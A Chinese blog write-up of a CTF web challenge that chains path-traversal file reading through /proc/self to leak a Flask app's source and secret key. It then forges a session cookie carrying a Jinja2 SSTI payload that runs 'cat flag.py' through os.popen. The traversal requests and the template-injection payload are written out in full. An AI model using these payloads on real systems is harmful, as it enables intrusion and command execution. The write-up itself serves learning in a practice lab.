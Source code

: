 ```yaml
---
title: N1BOOK of web afr_3 writeup
date: 2022-04-11 14:34:00
updated: 2022-04-11 22:35:00
tags: [ctf,security,<<从0到1：CTFer成长之路>>]
description: <<从0到1：CTFer成长之路>>配套题目 web相关题目的做题记录 N1BOOK of web afr_3 writeup
---
```


Nu1L Team写的\<\<[从0到1：CTFer成长之路](https://book.nu1l.com/tasks/)\>\>的题目在BUUOJ上都有了复现环境，简单看了看发现WEB的题目wp和环境都比较齐全，决定做一下并且写博客记录一下。

>参考:https://blog.csdn.net/AAAAAAAAAAAA66/article/details/121490787

首页有输入框可以提交name

![](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220411143954822.png)

提交后给出一个article让我们看，先看看里面都是啥

![](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220411143954822.png)

url中可以传参数，随便传一个看看

## 任意文件读取漏洞

![image-20220411144131085](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220411144131085.png)

发现可以任意文件读取，但是尝试读flag是不能直接读的，这里需要对linux的文件目录有一定的了解。

## 利用任意文件读取漏洞结合proc读取源码

/proc 文件系统是一种内核和内核模块用来向进程 (process) 发送信息的机制 (所以叫做 /proc)。这个伪文件系统让你可以和内核内部数据结构进行交互，获取 有关进程的有用信息，在运行中 (on the fly) 改变设置 (通过改变内核参数)。 与其他文件系统不同，/proc 存在于内存之中而不是硬盘上。

/proc 文件系统可以被用于收集有用的关于系统和运行中的内核的信息。

下面是一些重要 的文件：

/proc/cpuinfo - CPU 的信息 (型号, 家族, 缓存大小等) 
/proc/meminfo - 物理内存、交换空间等的信息 
/proc/mounts - 已加载的文件系统的列表 
/proc/devices - 可用设备的列表 
/proc/filesystems - 被支持的文件系统 
/proc/modules - 已加载的模块 
/proc/version - 内核版本 
/proc/cmdline - 系统启动时输入的内核命令行参数

我们需要用到`/proc/N/cmdline` 进程启动命令，`/proc/N/cwd` 链接到进程当前工作目录，利用这两个目录，我们读取`../../../../proc/self/cmdline`，来获取当前进程的启动命令，发现是python server.py，然后我们再利用`../../../../proc/self/cwd/server.py`链接到进程当前工作目录的server.py文件，那么这时候我们就可以直接获取到源码了，获取到的格式比较乱，可以用IDE格式化一下代码方便查看，我用的是vscode格式化代码的插件，但是并不是非常有效，还是需要手动调整一下，下面是调整后的。（后来发现f12就可以看到正常格式的源码，这下猪鼻了，但是编码倒是出了点问题也不知道为啥）

```python
<h1>Article Content:</h1> <br>#!/usr/bin/python
import os
from flask import ( Flask, render_template, request, url_for, redirect, session, render_template_string )
from flask_session import Session

app = Flask(__name__)
execfile(&#39;flag.py&#39;)
execfile(&#39;key.py&#39;)

FLAG = flag
app.secret_key = key
@app.route(&#34;/n1page&#34;, methods=[&#34;GET&#34;, &#34;POST&#34;])
def n1page():
    if request.method != &#34;POST&#34;:
        return redirect(url_for(&#34;index&#34;))
    n1code = request.form.get(&#34;n1code&#34;) or None
    if n1code is not None:
        n1code = n1code.replace(&#34;.&#34;, &#34;&#34;).replace(&#34;_&#34;, &#34;&#34;).replace(&#34;{&#34;,&#34;&#34;).replace(&#34;}&#34;,&#34;&#34;)
    if &#34;n1code&#34; not in session or session[&#39;n1code&#39;] is None:
        session[&#39;n1code&#39;] = n1code
    template = None
    if session[&#39;n1code&#39;] is not None:
        template = &#39;&#39;&#39;&lt;h1&gt;N1 Page&lt;/h1&gt; &lt;div class=&#34;row&gt; &lt;div class=&#34;col-md-6 col-md-offset-3 center&#34;&gt; Hello : %s, why you don&#39;t look at our &lt;a href=&#39;/article?name=article&#39;&gt;article&lt;/a&gt;? &lt;/div&gt; &lt;/div&gt; &#39;&#39;&#39; % session[&#39;n1code&#39;]
        session[&#39;n1code&#39;] = None
    return render_template_string(template)

@app.route(&#34;/&#34;, methods=[&#34;GET&#34;])
def index():
    return render_template(&#34;main.html&#34;)
@app.route(&#39;/article&#39;, methods=[&#39;GET&#39;])
def article():
    error = 0
    if &#39;name&#39; in request.args:
        page = request.args.get(&#39;name&#39;)
    else:
        page = &#39;article&#39;
    if page.find(&#39;flag&#39;)&gt;=0:
        page = &#39;notallowed.txt&#39;
    try:
        template = open(&#39;/home/nu11111111l/articles/{}&#39;.format(page)).read()
    except Exception as e:
        template = e

    return render_template(&#39;article.html&#39;, template=template)

if __name__ == &#34;__main__&#34;:
    app.run(host=&#39;0.0.0.0&#39;, debug=False)
```



## SSTI模板注入漏洞

我们需要注意到的关键是，server.py运行的这个路径下面还有两个文件，key.py和flag.py，我们并不能直接利用任意文件读取的漏洞读取flag文件是因为flag关键词在article()函数中做了过滤，然后这边结合考虑一下之前输入的name有什么用，因为毕竟是一个ctf题目，总共就那么点信息显然是有用处的，看一下这部分的代码

```python

if "n1code" not in session or session['n1code'] is None: 
    session['n1code'] = n1code
template = None
if session['n1code'] is not None:
 template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' %
session['n1code']
session['n1code'] = None

```

name那个输入框里面填入的值就是n1code的值，代码首先会对post传来n1code过滤一些SSTI关键的符号（下一段会说这样有什么用），然后再看你session里面有没有n1code这个字段，如果没有就会给session加个n1code的字段并且值为POST请求传来的n1code的值被过滤字符后的值，如果有就把session带入模板中执行，那么也就是说根据我们正常传入n1code的值然后他就会过滤SSTI的关键字符后，把n1code的值带进模板里面去执行，这里就会导致SSTI模板注入漏洞。但是SSTI的关键符号被过滤了，大括号都被过滤了，就没有办法让模板执行代码了对吧，所以说直接传n1code进行模板注入的方法并不奏效。

## 伪造session完成SSTI利用

因此我们需要使用伪造session的方式来完成SSTI注入漏洞的利用，因为你会发现你直接传入n1code的值会被过滤，但是你session如果是伪造的，我们就可以让n1code是我们想要执行的恶意代码并且不受到过滤条件的限制了，这非常关键，而且我们恰好有任意文件读取漏洞可以读取key.py这个文件，先来讲讲session是什么。

session是一种对用户身份的认证，并不是你叫ek1ng我就会在session里写ek1ng，session是存储在浏览器中用户可以更改的，那不然别人改个session也叫ek1ng那不是可以被别人轻易冒充，所以说session['n1code']经过key的加密，也就是说在服务端认为n1code是ek1ng，但是在客户端这个n1code的值是‘ek1ng’经过key加密之后的值，因此需要借助工具和通过任意文件读取漏洞来伪造一个session，从而达成对SSTI漏洞的利用。

首先肯定需要看看加密session的key.py文件，

payload:`article?name=../../../proc/self/cwd/key.py`

得到key.py的内容`key = 'Drmhze6EPcv0fN_81Bj-nA'`

借助工具[flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)来构造session，在命令行执行`.\flask_session_cookie_manager3.py encode -s Drmhze6EPcv0fN_81Bj-nA -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()}}'}"`

得到伪造后的session![image-20220411223700006](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220411223700006.png)

修改cookie中的session['n1code']的值，就可以看到flag啦

![image-20220411223828860](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220411223828860.png)

然后这题真的自己做的话肯定还是有不少坑的，简单了解一下flask的模板注入就知道，flask模板注入首先要先找可以导入os模块的基类，因为我们需要执行popen来读flag.py文件，但是能导入os模块的基类到底是哪个呢，这和python版本本身就是有关系的，这里可以去看一下我之前写的HGAME final中那道SSTI模板注入的题目中是如何找基类的，那个题是写了个脚本，所以说这题我觉得正儿八经做法就是要写个脚本跑一下看看结果的，但是由于我是没什么思路学习的别人wp，这边就当下懒狗啦，对我来说写个脚本并不困难，主要是学习一下思路，希望别的参考我博客复现的师傅们别偷懒哈哈哈。

